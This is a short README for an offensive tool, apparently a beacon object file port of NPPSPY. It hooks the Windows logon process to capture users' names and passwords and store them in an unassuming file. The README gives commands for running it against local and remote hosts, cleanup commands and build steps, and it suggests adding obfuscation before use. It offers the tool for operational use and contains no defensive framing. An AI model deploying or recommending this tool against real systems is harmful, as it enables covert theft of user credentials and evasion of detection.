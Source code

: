 # BOF-NPPSPY
Porting of NPPSPY by Grzegorz Tworek to 'man in the middle' the user logon process, and store the user's name and password in an unassuming file.

I have modified the DLL a little bit and you may want to add more changes or obfuscation before using it
# Usage
<b>Target local host</b>
```texinfo
bof-NPPSPY local
```
<b>Target remote host</b>
```texinfo
bof-NPPSPY WS01
```
![](images/demo.png)

<b>Cleanup</b><br>
cleanup command is provided as above
```texinfo
local:
bof-NPPSPY cleanup local <cleanupvalue>

remote:
bof-NPPSPY cleanup WS01 <cleanupvalue>
```

# Compile
```texinfo
git clone https://github.com/VoldeSec/BOF-NPPSPY.git
cd BOF-NPPSPY
make
```



# Credits
NPPSPY by Grzegorz Tworek - https://github.com/gtworek/PSBits/tree/master/PasswordStealing/NPPSpy
